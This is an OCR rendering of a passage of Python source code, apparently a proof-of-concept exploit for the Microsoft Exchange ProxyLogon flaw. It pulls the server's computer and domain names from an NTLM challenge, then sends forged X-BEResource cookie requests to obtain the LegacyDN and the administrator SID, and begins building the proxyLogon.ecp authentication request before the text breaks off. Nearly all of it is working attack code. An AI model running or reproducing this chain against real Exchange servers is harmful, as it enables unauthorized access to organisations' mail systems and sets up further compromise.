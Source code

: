 ```
    if response.status_code == 401:
        Negotiate_base64_encode = response.headers['WWW-Authenticate']
        Negotiate_base64_decode = re.search('Negotiate ([A-Za-z0-9/+=]+)', Negotiate_base64_encode).group(1)
        domain_name, computer_name = parse_challenge(b64decode(Negotiate_base64_decode))
        print("\033[32m[o] 计算机名称: {}\033[0m".format(computer_name))
        print("\033[32m[o] 域名称:    {}\033[0m".format(domain_name))
        POC_2(target_url, Email, computer_name)
    else:
        print("\033[31m[x] 获取失败")
        sys.exit(0)

def POC_2(target_url, Email, computer_name):
    payload = '''
<Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006">
    <Request>
         <EMailAddress>%s</EMailAddress>
        <AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema>
    </Request>
</Autodiscover>
    ''' % Email
    vuln_url = '/autodiscover/autodiscover.xml'
    headers = {
        'User-Agent': 'ExchangeServicesClient/0.0.0.0',
        'Content-Type': 'text/xml',
        'Cookie': 'X-BEResource=a]@{}:444{}?#~1941962753'.format(computer_name, vuln_url),
        'msExchLogonMailbox': 'S-1-5-20'
    }
    url = "https://{}/ecp/PeiQi.js".format(target_url)
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    response = requests.post(url, headers=headers, data=payload, verify=False, allow_redirects=False)
    LegacyDN = re.findall(r'<LegacyDN>(.*?)</LegacyDN>', response.text)[0]
    print("\033[32m[o] LegacyDN: {}\033[0m".format(LegacyDN))
    
    vuln_url = '/mapi/emsmdb/'
    headers = {
        'X-Clientapplication': 'Outlook/15.0.4815.1002',
        'X-Requestid': 'x',
        'X-Requesttype': 'Connect',
        'Cookie': 'X-BEResource=a]@{}:444{}?#~1941962753'.format(computer_name, vuln_url),
        'Content-Type': 'application/mapi-http',
        'msExchLogonMailbox': 'S-1-5-20',
    }
    payload = LegacyDN + '\x00\x00\x00\x00\x00\x20\x04\x00\x00\x09\x04\x00\x00\x09\x04\x00\x00\x00\x00\x00\x00'
    url = "https://{}/ecp/PeiQi.js".format(target_url)
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    response = requests.post(url, headers=headers, data=payload, verify=False, allow_redirects=False)
    SID = re.search('with SID ([S\-0-9]+) ', response.content).group(1)
    print("\033[32m[o] SID: {}\033[0m".format(SID))
    
    vuln_url = '/ecp/proxyLogon.ecp'
    payload = '<r at="NTLM" ln="%s"><s t="0">%s</s></r>' % (Email.split('@')[0], SID)
    headers = {
        'X-Clientapplication': 'Outlook/15.0.4815.1002',
        'X-Requestid': 'x',
        'X-Requesttype': 'Connect',
        'Cookie': 'X-BEResource=a]@{}:444{}?#~1941962753'.format(computer_name, vuln_url),
        'Content-Type': 'application/json',
```